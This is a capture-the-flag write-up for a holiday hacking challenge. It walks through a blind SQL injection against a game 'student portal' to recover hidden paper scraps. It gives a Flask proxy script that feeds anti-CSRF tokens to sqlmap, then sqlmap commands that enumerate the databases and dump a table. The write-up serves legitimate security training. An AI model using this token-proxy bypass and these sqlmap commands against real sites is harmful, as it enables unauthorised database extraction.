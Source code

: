 # Retrieve the Scraps of Paper from Server
**Hint**: [Pepper Minstix - Graylog](../hints/h9.md)

## Request
> Gain access to the data on the [Student Portal](https://studentportal.elfu.org/) server and retrieve the paper scraps hosted there.  
> What is the name of Santa's cutting-edge sleigh guidance system?  
> For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.  
>  
> Krampus:  
> Unfortunately, I managed to lock out my account on the server.  
> Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?  
> I give you permission to hack into it, solving Objective 9 in your badge.  
> And, as long as you're traveling around, be sure to solve any other challenges you happen across.

## Resources
- [Student Portal](https://studentportal.elfu.org/)
- [OWASP SQL Injection](https://www.owasp.org/index.php/SQL_injection)
- [SQLMAP Tamper Scripts for The Win](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)

## Solution
Pepper hints at using blind SQLi to retrieve the scraps from the server but whipping out [sqlmap](http://sqlmap.org) won't do us much good at this point. Both the `apply.php` and `check.php` pages contain a set of custom JavaScript functions that first retrieve a token value from `validator.php`. This value is then added to the form data and submitted to the server as a way to prevent [Cross-site request forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) (CSRF). For each request the server will first check the token and only accept the request if the token is valid.

![JavaScript](../img/challenges/c9/c9_1.png)

In other words, unless we tell sqlmap to submit a valid token with each of its requests, chances are the SQLi attempts won't even hit the backend database. Fortunately for us sqlmap has a `--csrf-url` option which allows you to specify a URL from where to retrieve tokens. Unfortunately for us, sqlmap also requires specifying the token field name via the `--csrf-token` option and `validator.php` doesn't set any token field names. It just returns the token value as-is.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url https://studentportal.elfu.org/validator.php --csrf-token=
```

![Token Response](../img/challenges/c9/c9_2.png)
![Sqlmap Fail](../img/challenges/c9/c9_3.png)

The problem can be solved by translating the `validator.php` response data to a format that sqlmap accepts (i.e. contains a token field name in the header or response body). When the below [Flask proxy script](../scripts/token_proxy.py.md) script receives a GET request it grabs a token value from `validator.php` and adds it as the value to a `token` field in both the header and body of its own HTTP response. 

```python
#!/usr/bin/env python3
# token_proxy.py
import requests
from flask import Flask, Response
app = Flask(__name__)


@app.route("/")
def token():
    """Return a token."""
    url = 'https://studentportal.elfu.org/validator.php'
    token = requests.Session().get(url).text
    # Put the token in the body, input tag, and header.
    resp = Response(
        f'Token:{token}\n'
        '<form>\n'
        f'  <input type="hidden" id="token" name="token" value="{token}"/>\n'
        '</form>\n'
    )
    resp.headers['token'] = token
    return resp


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

Start the Flask proxy app so it's ready to respond to incoming token requests.

```shell
python3 token_proxy.py
```

![Flask Proxy](../img/challenges/c9/c9_5.png)
![Proxy Token Response](../img/challenges/c9/c9_4_both.png)

Now run the earlier sqlmap command again but with the `--csrf-url` parameter set to our proxy listening on 127.0.0.1:5000 and `--csrf-token` set to 'token'. This will allow sqlmap to send valid HTTP requests to the server and execute its SQLi attacks.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token
```

![Sqlmap Success 1](../img/challenges/c9/c9_6.png)
![Sqlmap Success 2](../img/challenges/c9/c9_7.png)

We now know the database type (i.e. MySQL) and that the setup is vulnerable to at least three types of SQL Injection attacks via the `elfmail` GET parameter: boolean-based blind, error-based, and time-based blind. Grab an overview of the available databases.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --dbs
```

![Sqlmap DBs](../img/challenges/c9/c9_8.png)

`information_schema` is a default MySQL database so request the tables for `elfu`.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql --tables -D elfu
```

![Sqlmap Tables](../img/challenges/c9/c9_9.png)

Out of the three tables in the `elfu` database `krampus` looks like a good candidate so let's dump that.

```shell
sqlmap -u "https://studentportal.elfu.org/application-check.php?elfmail=McElfin%40example.com&token=y" \
--csrf-url http://127.0.0.1:5000/ --csrf-token=token --dbms=mysql -D elfu -T krampus --dump
```

![Sqlmap Dump](../img/challenges/c9/c9_10.png)

Well that looks pretty promising. Download the PNG files from the Student Portal and reassemble them using an image editor.

![Letter](../img/challenges/c9/letter.png)

## Answer
Sleigh guidance system name: `Super Sled-o-matic`

## Hint
> Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.  
> We’ve gotta stop whomever is behind it!  
> I managed to find this protected document on one of the compromised machines in our environment.  
> I think our attacker was in the process of exfiltrating it.  
> I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?  
> There are some smart people in the NetWars challenge room who may be able to help us.
